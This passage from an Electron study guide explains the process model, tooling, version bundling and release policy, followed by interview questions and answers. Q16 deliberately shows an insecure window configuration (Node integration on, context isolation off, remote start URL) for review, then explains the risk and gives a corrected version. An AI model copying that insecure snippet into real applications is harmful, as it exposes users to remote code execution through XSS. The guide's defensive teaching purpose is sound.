**electron-vite** is a popular community build tool. It runs Vite for all three parts: main, preload and renderer. It gives fast hot reload and outputs a bundled preload script, which matters because sandboxed preloads cannot `require` your own files. Teams often combine electron-vite (for building) with **electron-builder** (for installers and auto-updates).

### electron-builder

**electron-builder** is a widely used packaging tool. It builds NSIS, MSI, portable and AppX/MSIX installers for Windows, and pairs with `electron-updater` for auto-updates. It is not a project generator; you bring your own build setup. Packaging tools are compared in [Packaging, installers and code signing](06-packaging-installers-and-code-signing.md).

### Angular + Electron

Many enterprise teams already have an Angular app and want to wrap it. A common, clean setup keeps two separate builds:

```text
orderdesk/
  angular.json, src/app/...      <- Angular 16 renderer (built by Angular CLI)
  electron/
    main.ts, preload.ts          <- main and preload (built by tsc + a bundler, or esbuild)
  package.json
```

- **Development:** run `ng serve` (http://localhost:4200) and start Electron with an environment variable so `main` loads the dev server:

```js
// electron/main.js (compiled)
const isDev = !app.isPackaged;

if (isDev) {
  mainWindow.loadURL('http://localhost:4200');
} else {
  mainWindow.loadURL('app://bundle/index.html'); // custom protocol, see the security document
}
```

- **Production:** run `ng build`. In Angular 16 the default output is `dist/<project-name>/`. The main process serves those files through a custom protocol.
- **Routing:** with a custom protocol registered as a standard scheme, normal `PathLocationStrategy` routes work if your protocol handler returns `index.html` for unknown paths (a "SPA fallback"). If you load with `file://` instead, you need `--base-href ./` and usually `HashLocationStrategy`, because `file://` has no server to rewrite deep URLs.
- **Calling Electron from Angular:** wrap `window.api` in an injectable service and re-enter the Angular zone for event callbacks. This is shown in [IPC and preload scripts](03-ipc-and-preload-scripts.md#angular-service-that-wraps-the-preload-api).

> **Newer Angular (17+):** the new `application` builder (esbuild) became the default for new projects, and its output goes to `dist/<project-name>/browser/`. Update the path your main process serves from when you upgrade.

`app.isPackaged` is `true` when the app runs from a packaged installer build, and `false` when you run it with `electron .`. Do not use `process.env.NODE_ENV` alone to decide this, because nothing sets it for you in a packaged app.

---

## Bundled Chromium and Node.js versions

Each Electron release contains **one specific Chromium version and one specific Node.js version**, compiled into the binary. You can read them at runtime:

```js
// main process
console.log(process.versions.electron); // e.g. 44.0.0
console.log(process.versions.chrome);   // e.g. 152.0.xxxx.xx
console.log(process.versions.node);     // e.g. 24.x.x
console.log(process.versions.v8);       // V8 version used by both Chromium and Node.js
```

Important consequences:

- **Your users do not need Node.js installed.** The app brings its own Node.js inside `OrderDesk.exe`.
- **The Node.js on your development machine does not matter at runtime.** You might run `node` 22 in your terminal while your app runs Node 24 inside Electron 44. Build tools run on your machine's Node; the app runs on Electron's Node.
- **Native modules must be built for Electron**, not for your system Node. A native addon compiled for Node 22 will not load inside Electron. Tools like `@electron/rebuild` (and Electron Forge automatically) rebuild them against Electron's headers. See [Filesystem, child processes and native features](05-filesystem-child-processes-and-native-features.md#native-addons-with-node-api).
- **Web platform features follow the bundled Chromium.** If Electron 44 uses Chromium 152, your renderer has exactly the CSS and JavaScript features of Chrome 152. You do not need to support older browsers in the renderer, which simplifies your build targets.
- **Security fixes arrive only through Electron upgrades.** A Chromium security bug fixed in Chrome today reaches your users only after you upgrade Electron and ship your app.

Example pairs from the official release schedule:

| Electron | Chromium | Node.js |
| --- | --- | --- |
| 40 | 144 | 24.11 |
| 42 | 148 | 24.15 |
| 44 | 152 | 24.18 |

Check https://releases.electronjs.org for the exact versions of any release.

One small modern change: starting with Electron 42, the `electron` npm package downloads its binary the first time you run it, instead of during `npm install`. If your CI machines have no internet access, plan for this (the release notes describe an `install-electron` command for downloading ahead of time).

---

## Release cadence and support policy

- Electron releases a **new major version every 8 weeks**. This matches every second Chromium release.
- Each major goes through **alpha → beta → stable**.
- The Electron team supports the **latest three stable major versions**. Older versions stop receiving security fixes.
- So one major version is supported for roughly six months.

At the time of writing (October 2026), Electron 42, 43 and 44 are the supported stable lines, and Electron 45 is scheduled to become stable on October 20, 2026 (which ends support for 42).

What this means for a team:

- **Plan regular upgrades.** If you upgrade once a year, your users run an unsupported Chromium for months.
- **Read the breaking changes document** before each upgrade. For example, Electron 44 removed the `clipboard` module from renderers and changed the main-process clipboard methods to return promises.
- **Automate upgrade testing.** A CI job that runs your end-to-end tests against the next Electron beta catches problems early.
- **Ship auto-updates** so users actually receive the new Electron (see [Auto-updates](07-auto-updates.md)).

---

## Common mistakes

1. **Thinking the renderer is a Node.js environment.** Old tutorials use `require('fs')` in the page with `nodeIntegration: true`. That is insecure and does not work with modern defaults.
2. **Looking for main-process logs in DevTools.** Main-process `console.log` goes to the terminal (and to your log file in production), not to the window's DevTools.
3. **Doing heavy work in the main process.** Synchronous file I/O, big JSON parsing or CPU loops in main freeze every window.
4. **Exposing `ipcRenderer` or Node modules through the preload.** This throws away the protection that context isolation gives you.
5. **Creating windows before `ready`.** `new BrowserWindow()` before `app.whenReady()` throws an error.
6. **Losing the window reference.** Keep a reference to your main window (and tray icon) in a variable that lives as long as you need it, and set it to `null` in `closed`.
7. **Splitting a sandboxed preload into several files without bundling.** `require('./channels')` fails in a sandboxed preload.
8. **Using `process.env.NODE_ENV` to detect production.** Use `app.isPackaged`.
9. **Staying on an old Electron.** Old Electron means old Chromium with known security holes.
10. **Using `BrowserView` or the `remote` module from old tutorials.** `BrowserView` is deprecated since Electron 30 (use `WebContentsView`). The `remote` module was removed in Electron 14.

## Best practices

- **Treat every renderer as untrusted.** Validate every IPC message in main, as if it came from the internet. Reason: XSS or a compromised npm package can run code in the renderer.
- **Keep secure defaults visible in code.** Write `contextIsolation: true`, `nodeIntegration: false`, `sandbox: true` explicitly. Reason: reviewers see the intent, and copy-pasted old code cannot silently weaken them.
- **Keep the main process thin and asynchronous.** Use `fs/promises`, and move CPU-heavy or crash-prone work to utility processes. Reason: a blocked main process freezes the whole app.
- **Expose narrow, purpose-built preload APIs.** Reason: the smaller the bridge, the less an attacker can do with it.
- **Show windows with `show: false` + `ready-to-show`.** Reason: no white flash at startup.
- **Use one secure window factory.** Create all windows through one function with secure `webPreferences`. Reason: a new window cannot be created with weaker settings by accident.
- **Use `app.isPackaged` to switch between dev server and packaged files.** Reason: it is reliable in every environment.
- **Upgrade Electron on a schedule.** Reason: only supported versions get Chromium security fixes.
- **Bundle the preload when it imports other files.** Reason: sandboxed preloads cannot load your own modules.

---

## How to explain the process model in an interview

1. **Define it:** "Electron combines Chromium and Node.js. An app runs as several processes: one main process, one renderer process per web page, preload scripts inside renderers, optional utility processes, and Chromium helpers like the GPU process."
2. **Why it exists:** "It comes from Chromium's multi-process design. Separating processes gives stability, because a crashing page does not kill the app, and security, because the web page runs sandboxed without Node.js."
3. **How it works:** "The main process is a Node.js environment that owns the app lifecycle, windows and native APIs. Renderers run the UI like browser tabs, with no Node.js. A preload script runs in an isolated context inside the renderer and uses `contextBridge` to expose a few specific functions. Those functions send IPC messages to the main process, which validates them and does the real work."
4. **Small example:** "When a user clicks 'Export orders', the Angular page calls `window.api.exportOrders()`. The preload turns that into `ipcRenderer.invoke('orders:export')`. The main process checks the sender, shows a save dialog, writes the file with `fs/promises`, and returns the path."
5. **Where it is useful:** "This split lets us use web UI frameworks while keeping powerful system access in one trusted place. Heavy work like report generation goes to a utility process so the UI stays responsive."
6. **Trade-offs / gotchas:** "Each window is a process, so memory grows with windows. A blocked main process freezes every window. And since we write the browser process ourselves, a careless IPC handler can undo the sandbox, so every handler must validate its input and sender."

---

## Interview questions

### Q1. What is Electron, and how does it work?

**What the interviewer is checking:** Whether you know the three building blocks (Chromium, Node.js, native APIs) and understand that an Electron app is a group of processes, not a web page in a box.

**Short spoken answer (30–60 seconds):**
> Electron is a framework for building desktop apps with web technologies. It bundles three things: Chromium to render the UI, Node.js for system access, and Electron's own APIs for desktop features like windows, menus, tray icons and dialogs. When the app starts, the main process runs my `main.js` in Node.js. It creates `BrowserWindow`s, and each window loads a web page in its own renderer process, which works like a sandboxed browser tab. The page talks to the main process through a preload script and IPC. The big advantage is one code base for Windows, Mac and Linux using web skills. The cost is size and memory, because every app ships its own Chromium and Node.js.

**Detailed explanation:**
Electron embeds Node.js into Chromium's browser process; that process becomes the Electron main process. Renderers are Chromium renderer processes running Blink and V8. Electron adds a JavaScript API layer (`app`, `BrowserWindow`, `ipcMain`, `dialog`, `Menu`, `Tray`, and more) on top. The app's code is usually packed into `resources/app.asar`, and the Electron binary is renamed to the product name.

**Follow-up questions:**
- **Does the user need Node.js or Chrome installed?** — No. Both are compiled into the app's executable. The app does not use the user's installed browser.
- **Is Electron just a WebView?** — No. A WebView uses the operating system's browser engine (for example Edge WebView2 on Windows). Electron ships its own Chromium and also provides a full Node.js runtime and native APIs. Tauri is an example of a WebView-based framework.
- **Name some Electron apps.** — VS Code, Slack, Discord, Postman, Obsidian, Signal Desktop, GitHub Desktop.

**Common mistakes:** Saying "Electron runs Node.js in the browser" (it runs Node.js in the main process; the renderer has no Node.js by default). Forgetting the native API layer.

**Where this is used in real projects:** Internal tools, point-of-sale and kiosk apps, developer tools, chat clients, and any team that wants to reuse an existing web front end on the desktop.

---

### Q2. Explain Electron's process model.

**What the interviewer is checking:** That you can name every process type, explain what each can do, and explain *why* the split exists.

**Short spoken answer (30–60 seconds):**
> An Electron app has one main process and several other processes. The main process is the entry point. It runs Node.js, controls the app lifecycle, creates windows and handles IPC. Each window or web view has a renderer process that runs the page like a Chrome tab, sandboxed and without Node.js. Inside each renderer, a preload script runs first in an isolated JavaScript context and exposes a small API with `contextBridge`. For heavy or risky background work, the main process can start utility processes with `utilityProcess.fork`. Chromium also adds a GPU process and helpers like the network service. This split gives crash isolation and security: the untrusted UI is separated from the powerful system code.

**Detailed explanation:**
See [The process model at a glance](#the-process-model-at-a-glance). The key relationships: main creates renderers through `BrowserWindow`/`WebContentsView`; renderers can only reach main through IPC; preloads are the only place in the renderer with Electron APIs; utility processes are Node.js children that can also receive `MessagePort`s from renderers.

**Follow-up questions:**
- **How many main processes can an app have?** — Exactly one per running instance. If the user starts the app twice without a single-instance lock, there are two separate instances, each with its own main process.
- **Is the preload a separate process?** — No. It runs inside the renderer process, but in a separate JavaScript context (an isolated world).
- **Where does the GPU process fit?** — Chromium creates it automatically. It composites all pages and talks to the graphics driver. You do not write code for it.

**Common mistakes:** Calling the preload a process. Saying there is one renderer for the whole app. Forgetting utility processes.

**Where this is used in real projects:** Every architecture discussion of an Electron app starts here: where code lives decides what it can access and what happens when it crashes.

---

### Q3. What is the difference between the main process and a renderer process?

**What the interviewer is checking:** Clear separation of responsibilities and trust levels.

**Short spoken answer (30–60 seconds):**
> The main process is the trusted back end of the app. There is only one, it runs Node.js, and it can use every Electron and operating system API: windows, menus, files, child processes. The renderer is the front end. There is one per page, it runs HTML, CSS and JavaScript in Chromium, and with secure defaults it has no Node.js and runs in a sandbox. If a renderer crashes, only that window's page is lost. If the main process crashes, the whole app exits. They communicate only through IPC, so I treat the renderer as untrusted and validate everything in main.

**Detailed explanation:**

| | Main process | Renderer process |
| --- | --- | --- |
| Count | One | One per `webContents` (usually) |
| Environment | Node.js + Electron main APIs | Chromium web page (DOM, Web APIs) |
| Node.js | Full | None (by default) |
| Trust | Trusted | Untrusted |
| Crash impact | Whole app exits | That page is gone; main can reload it |
| Blocking impact | All windows freeze | Only that page freezes |

**Follow-up questions:**
- **Can a renderer open a native file dialog?** — Not directly. It asks the main process through a preload function, and the main process calls `dialog.showOpenDialog`.
- **Where do `console.log` messages from each process appear?** — Main: the terminal (or log file). Renderer: that window's DevTools console.

**Common mistakes:** Saying the renderer "can use Node if needed" without mentioning the security cost. Not knowing what happens on crash.

**Where this is used in real projects:** Deciding where a feature lives: UI state in the renderer, file access and OS integration in main, heavy computation in a utility process.

---

### Q4. What is a preload script, and why do we need it?

**What the interviewer is checking:** Understanding of the bridge pattern, context isolation and the sandbox limits.

**Short spoken answer (30–60 seconds):**
> A preload script is a JavaScript file that runs in the renderer process before the page loads. It runs in an isolated world, separate from the page's JavaScript, and it has access to a few Electron APIs like `ipcRenderer` and `contextBridge`. We need it because the page itself has no Node.js or Electron access for security reasons, but it still needs some desktop features. The preload uses `contextBridge.exposeInMainWorld` to give the page a small set of specific functions, like `saveOrder` or `getAppInfo`, and each function sends one IPC message to main. The rule is: expose narrow functions, never `ipcRenderer` itself.

**Detailed explanation:**
With `sandbox: true`, the preload can only `require('electron')` (limited to `contextBridge`, `crashReporter`, `ipcRenderer`, `nativeImage`, `webFrame`, `webUtils`), plus `events`, `timers` and `url`. It has `Buffer`, `process`, `setImmediate` and `clearImmediate`. Context isolation means the page cannot see or modify the preload's variables or built-ins.

**Code:**

```js
// preload.js
const { contextBridge, ipcRenderer } = require('electron');

contextBridge.exposeInMainWorld('orderDesk', {
  saveOrder: (order) => ipcRenderer.invoke('orders:save', order),
});
```

**Follow-up questions:**
- **Can a preload script use `fs`?** — Not when sandboxed (the default). Do file work in the main process and expose a narrow IPC function instead.
- **Can the preload use ES module `import`?** — Not when sandboxed. Sandboxed preloads run as plain scripts. Use `require` or a bundler that outputs a single CommonJS file.
- **What if I set `window.myApi = ...` in the preload?** — With context isolation, the page does not see it. You must use `contextBridge.exposeInMainWorld`.

**Common mistakes:** Exposing `ipcRenderer`, `require` or a generic `invoke(channel, ...args)` wrapper. Believing the preload is "secure because it is in the preload" — validation must still happen in main.

**Where this is used in real projects:** Every secure Electron app has one; in Angular apps, the preload API is wrapped in an injectable service.

---

### Q5. What is `webContents`, and how is it different from `BrowserWindow`?

**What the interviewer is checking:** Whether you understand the window/page split and how main controls renderers.

**Short spoken answer (30–60 seconds):**
> `BrowserWindow` is the native window: size, position, title bar, minimize and maximize. `webContents` is the web page inside it. It lives in the main process and acts as the remote control for the renderer process: I use it to load URLs, open DevTools, print, listen for navigation or crash events, and send IPC messages to the page with `webContents.send`. Every `BrowserWindow` has one `webContents`, but a `webContents` can also exist without a `BrowserWindow`, for example inside a `WebContentsView`.

**Follow-up questions:**
- **How do you find the window that sent an IPC message?** — `BrowserWindow.fromWebContents(event.sender)`.
- **How do you apply security rules to every page, including popups and views?** — Listen to `app.on('web-contents-created', (e, contents) => ...)` and install `will-navigate` and `setWindowOpenHandler` handlers on each `contents`.
- **What replaced `BrowserView`?** — `WebContentsView` (Electron 30), placed inside a `BaseWindow` or `BrowserWindow` with `contentView.addChildView`.

**Common mistakes:** Saying `webContents` lives in the renderer. Mixing up window events (`close`, `resize`) and page events (`did-finish-load`, `will-navigate`).

**Where this is used in real projects:** Sending progress updates to the UI, printing receipts with `webContents.print`, reacting to renderer crashes with `render-process-gone`.

---

### Q6. Why can't the renderer just `require('fs')`? Wouldn't `nodeIntegration: true` be simpler?

**What the interviewer is checking:** Security awareness — the XSS-to-RCE path.

**Short spoken answer (30–60 seconds):**
> It would be simpler, but very dangerous. The renderer runs HTML and JavaScript, which can be attacked through XSS, a compromised npm package, or any remote content we load. In a browser, XSS stays inside the website. In an Electron renderer with Node.js enabled, the same XSS can call `child_process.exec` and run any program on the user's computer — that is remote code execution. So Electron disables Node in renderers by default, isolates the preload context, and sandboxes the renderer. The safe pattern is to keep Node.js in the main process and expose only specific, validated operations through the preload.

**Follow-up questions:**
- **What are the relevant defaults?** — `nodeIntegration: false` since Electron 5, `contextIsolation: true` since Electron 12, `sandbox: true` since Electron 20.
- **We only load our own local files. Is `nodeIntegration` OK then?** — Still no. Your own page can have XSS (for example rendering a customer name with `innerHTML`), and your frontend dependencies can be compromised. Defense in depth means not relying on "our content is always safe".

**Common mistakes:** "It's fine because we don't load remote content." Turning off `contextIsolation` to make an old library work.

**Where this is used in real projects:** Security reviews and penetration tests of Electron apps check these settings first. Details: [Electron security](04-electron-security.md).

---

### Q7. What is a utility process, and when would you use one?

**What the interviewer is checking:** Knowledge of modern Electron (Electron 22+) and of keeping main responsive.

**Short spoken answer (30–60 seconds):**
> A utility process is a Node.js child process started from main with `utilityProcess.fork`. It runs through Chromium's process system, so it shows up in `app.getAppMetrics` and can receive `MessagePort`s, which means a renderer can talk to it directly. I use it for work that would block or crash the main process: parsing large files, generating reports, running a sync engine, or wrapping a crash-prone native SDK. If it crashes, only that process dies; main gets an `exit` event and can restart it. Electron recommends it over `child_process.fork` when forking from main.

**Code:**

```js
const worker = utilityProcess.fork(path.join(__dirname, 'sync-worker.js'), [], {
  serviceName: 'OrderDesk Sync',
});
worker.on('exit', (code) => {
  log.warn('Sync worker exited', code);
  // restart with backoff — see the crash recovery document
});
worker.postMessage({ type: 'start', storeId: 'STORE-042' });
```

**Follow-up questions:**
- **How does the child send messages back?** — `process.parentPort.postMessage(data)`; it receives with `process.parentPort.on('message', (e) => e.data)`.
- **Why not `worker_threads`?** — Worker threads share the main process. A native crash in a worker kills the whole app. They are fine for pure-JavaScript CPU work, but a utility process gives stronger isolation.
- **Can a utility process run an `.exe`?** — It can use `child_process` like any Node.js process, but to run an external program you can also spawn it directly from main. See [Filesystem, child processes and native features](05-filesystem-child-processes-and-native-features.md).

**Common mistakes:** Not knowing the API exists and putting everything in main. Thinking a utility process has DOM access (it does not).

**Where this is used in real projects:** Background file sync, PDF/Excel generation, hardware SDK wrappers in POS apps, local AI model inference.

---

### Q8. How does Electron's process model compare with Chrome's?

**What the interviewer is checking:** Deeper understanding: Electron *is* Chromium's architecture, but you own the trusted part.

**Short spoken answer (30–60 seconds):**
> Electron uses Chromium's multi-process architecture almost unchanged. Chrome has a trusted browser process, sandboxed renderer processes, a GPU process and utility processes. In Electron, the main process is Chromium's browser process with Node.js and my own code inside it. The big difference is responsibility. In Chrome, Google writes the browser process and makes the security decisions: permissions, navigation, popups. In Electron, I write that code. Electron gives me hooks like `setPermissionRequestHandler`, `will-navigate` and `setWindowOpenHandler`, and I must use them. Also, Chrome updates itself every few weeks, but my Electron app gets Chromium fixes only when I upgrade and ship.

**Follow-up questions:**
- **Is the Electron renderer as safe as a Chrome tab?** — With default settings it is similar: sandboxed, no Node.js. But you can weaken it with options like `nodeIntegration: true` or `sandbox: false`, and IPC handlers in main can create new holes.
- **Does Electron have site isolation?** — Yes, it inherits Chromium's site isolation, so cross-site iframes can run in separate processes.

**Common mistakes:** Saying Electron "uses one process like a WebView". Not mentioning that the developer owns browser-process security.

**Where this is used in real projects:** Threat modeling and explaining to security teams why Electron settings and IPC review matter.

---

### Q9. Why does my Electron app show many processes in Task Manager?

**Short answer:** Because Electron uses Chromium's multi-process design. You see the main process (type `Browser`), one renderer per window or view (type `Tab`), the GPU process, the network service and other utility processes, plus any utility processes you created. They all use your app's executable name. `app.getAppMetrics()` lists each one with its type, PID, CPU and memory. This is normal; but if the count grows over time, check for windows that are hidden but never destroyed, or worker processes that are never killed.

---

### Q10. Which Node.js version does an Electron app use? Does the user need Node.js installed?

**What the interviewer is checking:** That you understand bundling and its effect on native modules.

**Short spoken answer (30–60 seconds):**
> The app uses the Node.js version compiled into that Electron release, not the one on the developer's or user's machine. For example, Electron 44 ships Node 24. I can check it with `process.versions.node` in the main process. The user does not need Node.js installed at all. The practical impact is native modules: a native addon must be compiled against Electron's version and headers, so we run `@electron/rebuild` or let Electron Forge do it. Otherwise the app fails with a "module was compiled against a different Node.js version" error.

**Follow-up questions:**
- **Why might `npm test` pass but the app fail to load a native module?** — Tests run on your system Node (with its ABI); the app runs on Electron's Node. The module was built for the wrong one.
- **Do I need to support old browsers in my renderer code?** — No. You know the exact Chromium version you ship, so you can target it directly.

**Common mistakes:** Assuming system Node is used. Forgetting to rebuild native modules after upgrading Electron.

**Where this is used in real projects:** Upgrading Electron in a project that uses `better-sqlite3`, `serialport` or a printer SDK.

---

### Q11. How often does Electron release, and what does that mean for your team?

**What the interviewer is checking:** Maintenance and security maturity.

**Short spoken answer (30–60 seconds):**
> Electron ships a new major version every eight weeks, following every second Chromium release. Only the latest three stable majors are supported with security fixes, so each major is supported for about six months. For a team, that means upgrades are a regular task, not a once-a-year project. We read the breaking-changes notes, run our end-to-end tests against the next beta in CI, rebuild native modules, and ship through auto-update so users actually get the patched Chromium.

**Follow-up questions:**
- **What is a recent breaking change you know?** — For example, Electron 44 removed the `clipboard` module from renderers and made main-process clipboard methods promise-based. Electron 30 deprecated `BrowserView` in favor of `WebContentsView`.
- **How do you reduce upgrade risk?** — Keep the main process thin, wrap Electron APIs in your own small services, keep E2E tests (Playwright `_electron`), and upgrade one major at a time.

**Common mistakes:** Pinning an old Electron "because it works". Not knowing the support window.

**Where this is used in real projects:** Release planning, security audits, enterprise customers who ask about patch policy.

---

### Q12. What happens when the main process crashes? What about a renderer?

**What the interviewer is checking:** Fault isolation and recovery thinking.

**Short spoken answer (30–60 seconds):**
> If the main process crashes, the whole app exits, because main owns every window and the lifecycle. If a renderer crashes, only that page dies. The window stays open but shows a blank page, and the main process gets a `render-process-gone` event with a reason like `crashed` or `oom`. We can log it and then reload the page or recreate the window, restoring unsaved data from an autosave. That is why we keep risky code out of main: native SDKs and heavy jobs go to utility processes, where a crash is recoverable.

**Code:**

```js
mainWindow.webContents.on('render-process-gone', (_event, details) => {
  log.error('Renderer gone', details.reason, details.exitCode);
  if (details.reason !== 'clean-exit') mainWindow.reload();
});
```

**Follow-up questions:**
- **How do you catch a hanging (not crashed) renderer?** — `BrowserWindow` emits `unresponsive` and later `responsive`. You can offer the user "wait" or "reload".
- **How do you avoid an infinite crash-reload loop?** — Count restarts in a time window and stop (show an error page) after a limit. See [Logging, crash recovery and monitoring](08-logging-crash-recovery-and-monitoring.md).

**Common mistakes:** Thinking a renderer crash closes the app. Reloading forever without a limit.

**Where this is used in real projects:** Kiosk and POS apps that must recover without a technician.

---

### Q13. Scenario: the whole app freezes for 10 seconds when a user exports a big report. What is happening and how do you fix it?

**What the interviewer is checking:** Whether you can diagnose main-process blocking.

**Short spoken answer (30–60 seconds):**
> If every window freezes — not just one page — I suspect the main process is blocked. Probably the export handler uses synchronous file APIs or does a big CPU loop, like building a CSV from a million rows, inside `ipcMain.handle`. While that runs, main cannot process window events or other IPC. I would confirm with the main-process profiler (`--inspect` and Chrome DevTools) or by timing the handler. Then I would switch to `fs/promises` or streams, and move the CPU-heavy part into a utility process that reports progress back. The UI shows a progress bar instead of freezing.

**Follow-up questions:**
- **How would you show progress?** — The worker posts progress messages to main, and main forwards them with `webContents.send('export:progress', percent)`. See [IPC and preload scripts](03-ipc-and-preload-scripts.md).
- **What if only one window freezes?** — Then the problem is in that renderer: heavy frontend work. Use a Web Worker or optimize the rendering (for example virtual scrolling).

**Common mistakes:** Blaming Chromium or "Electron is slow". Moving the work to the renderer (that just freezes the UI in a different place).

**Where this is used in real projects:** Report exports, large imports, image processing, database migrations at startup.

---

### Q14. Why would you choose Electron for a desktop app, and when would you not?

**What the interviewer is checking:** Balanced, senior-level judgment.

**Short spoken answer (30–60 seconds):**
> I choose Electron when the team has strong web skills, when we need Windows, Mac and Linux from one code base, when we can reuse an existing web UI, or when we need rich UI plus full Node.js access — for example, an internal order tool that talks to local printers and a REST API. I would not choose it for a tiny utility where a 100 MB download is silly, for machines with very little memory, or when we need deep native UI integration on one platform. Then I would look at Tauri, which uses the system WebView and is much smaller, or native options like WPF or WinUI on Windows, or simply a PWA if browser APIs are enough.

**Follow-up questions:**
- **What is the biggest operational cost of Electron?** — Keeping up with security updates: you must ship new Electron versions regularly, with signed installers and working auto-update.
- **Can you reduce Electron's memory use?** — Yes: fewer windows, reuse windows instead of creating many, lazy-load heavy screens, and move work to the right process. See [Performance, architecture and alternatives](09-performance-architecture-and-alternatives.md).

**Common mistakes:** Only listing advantages. Claiming Electron is "always slow" without nuance.

**Where this is used in real projects:** Architecture decision records for new desktop products.

---

### Q15. How would you set up an Angular application inside Electron?

**What the interviewer is checking:** Practical project structure and dev/prod differences.

**Short spoken answer (30–60 seconds):**
> I keep two builds. Angular CLI builds the renderer, and a separate TypeScript build with a bundler produces the main process and the preload script. In development, the main process loads `http://localhost:4200` from `ng serve`, so I keep hot reload. In production, I load the files from `dist` through a custom protocol like `app://bundle`, with a fallback to `index.html` so Angular routes work. I decide with `app.isPackaged`. On the Angular side, I wrap `window.api` in an injectable service with a type definition, and for events coming from main I call `NgZone.run` so change detection runs.

**Follow-up questions:**
- **Why not load Angular with `file://`?** — `file://` pages get extra privileges and can read local files if there is an XSS bug; also deep routes need `HashLocationStrategy`. A custom protocol limits served files to your bundle.
- **How do you keep secure settings in dev mode?** — Use the same `webPreferences` in dev and prod. Only the URL differs. Allow navigation only to `localhost:4200` in dev.

**Common mistakes:** Turning on `nodeIntegration` so Angular services can use `fs` directly. Using different security settings in dev and prod.

**Where this is used in real projects:** Wrapping an existing enterprise Angular portal as a desktop app with offline and hardware features.

---

### Q16. Code review: what is wrong with this window configuration?

```js
const win = new BrowserWindow({
  webPreferences: {
    nodeIntegration: true,
    contextIsolation: false,
    preload: './preload.js',
  },
});
win.loadURL(remoteConfig.startUrl);
```

**What the interviewer is checking:** Ability to spot insecure settings and explain the impact.

**Short spoken answer (30–60 seconds):**
> Several problems. `nodeIntegration: true` gives the page full Node.js, and it also turns off the sandbox automatically. `contextIsolation: false` lets the page reach the preload's scope. Together, any XSS becomes remote code execution. The preload path is relative, but it must be absolute, so I would use `path.join(__dirname, 'preload.js')`. And the URL comes from remote configuration, so if that configuration is tampered with, the app loads an attacker's page with Node access. I would remove the first two options to get secure defaults, add `sandbox: true` explicitly, use an absolute preload path, and only load our own bundle or an allowlisted HTTPS origin.

**Fixed version:**

```js
const win = new BrowserWindow({
  webPreferences: {
    preload: path.join(__dirname, 'preload.js'),
    contextIsolation: true,
    nodeIntegration: false,
    sandbox: true,
  },
});
win.loadURL('app://bundle/index.html');
```

**Follow-up questions:**
- **What else would you check in the same review?** — `will-navigate` and `setWindowOpenHandler` handlers, a CSP, sender validation in IPC handlers, and whether `webSecurity` was disabled anywhere.

**Common mistakes:** Only noticing one of the problems. Not explaining the impact (RCE).

**Where this is used in real projects:** Pull-request reviews and security audits.

---

### Q17. Can two renderer processes talk to each other directly?

**Short answer:** Not with plain IPC; there is no renderer-to-renderer channel. You have two options. (1) Use the main process as a broker: window A invokes main, main forwards with `webContents.send` to window B. (2) For high-volume or direct communication, main creates a `MessageChannelMain` and sends one port to each renderer with `webContents.postMessage`; then they talk directly. Details in [IPC and preload scripts](03-ipc-and-preload-scripts.md#messageports-for-direct-and-high-volume-channels).

---

### Q18. What are `electron/main`, `electron/renderer` and `electron/common`?

**Short answer:** They are import paths that give you TypeScript types for only the modules valid in that process. For example, `import { app } from 'electron/main'` in main code, and `import { contextBridge } from 'electron/renderer'` in a preload. They have no runtime effect; they help the type checker catch mistakes like using `BrowserWindow` in preload code.

---

## Summary

- **Electron = Chromium + Node.js + native desktop APIs.** Every app ships its own copy of Chromium and Node.js, which is why apps are large.
- An app is a **group of processes**: one **main process**, **renderer processes** (usually one per `webContents`), **preload scripts** inside renderers, optional **utility processes**, and Chromium's **GPU** and helper processes.
- The **main process** is trusted Node.js: lifecycle, windows, native features, IPC handlers. If it blocks, all windows freeze. If it crashes, the app exits.
- **Renderers** are untrusted browser tabs: no Node.js, sandboxed by default (Electron 20+), context-isolated (Electron 12+).
- The **preload** runs in an isolated world and exposes **small, specific functions** with `contextBridge.exposeInMainWorld`. Never expose `ipcRenderer` itself. Sandboxed preloads can only `require` a few modules, so bundle multi-file preloads.
- **`BrowserWindow`** is the native window; **`webContents`** is the page and the main process's remote control for it. `WebContentsView` (Electron 30) replaced `BrowserView`.
- **`utilityProcess.fork`** (Electron 22+) runs heavy or crash-prone work in a separate Node.js process and can receive `MessagePort`s.
- Electron follows Chromium's architecture, but **you write the browser process**, so you own navigation, permission and IPC security.
- Each release bundles **specific Chromium and Node.js versions**; users need no Node.js, and native modules must be rebuilt for Electron.
- A new major every **8 weeks**; the **latest three stable majors** are supported. Upgrade on a schedule.

## References

- Electron: Process Model — https://www.electronjs.org/docs/latest/tutorial/process-model
- Electron: Building your First App — https://www.electronjs.org/docs/latest/tutorial/tutorial-first-app
- Electron: Context Isolation — https://www.electronjs.org/docs/latest/tutorial/context-isolation
- Electron: Process Sandboxing — https://www.electronjs.org/docs/latest/tutorial/sandbox
- Electron: `utilityProcess` API — https://www.electronjs.org/docs/latest/api/utility-process
- Electron: `webContents` API — https://www.electronjs.org/docs/latest/api/web-contents
- Electron: `WebContentsView` API — https://www.electronjs.org/docs/latest/api/web-contents-view
- Electron: Web Embeds — https://www.electronjs.org/docs/latest/tutorial/web-embeds
- Electron: ES Modules (ESM) in Electron — https://www.electronjs.org/docs/latest/tutorial/esm
- Electron: Electron Releases (timelines and support) — https://www.electronjs.org/docs/latest/tutorial/electron-timelines
- Electron Release Schedule — https://releases.electronjs.org/schedule
- Electron: Breaking Changes — https://www.electronjs.org/docs/latest/breaking-changes
- Electron Forge: Vite + TypeScript template — https://www.electronforge.io/templates/vite-+-typescript
- Chromium: Multi-process Architecture — https://www.chromium.org/developers/design-documents/multi-process-architecture/

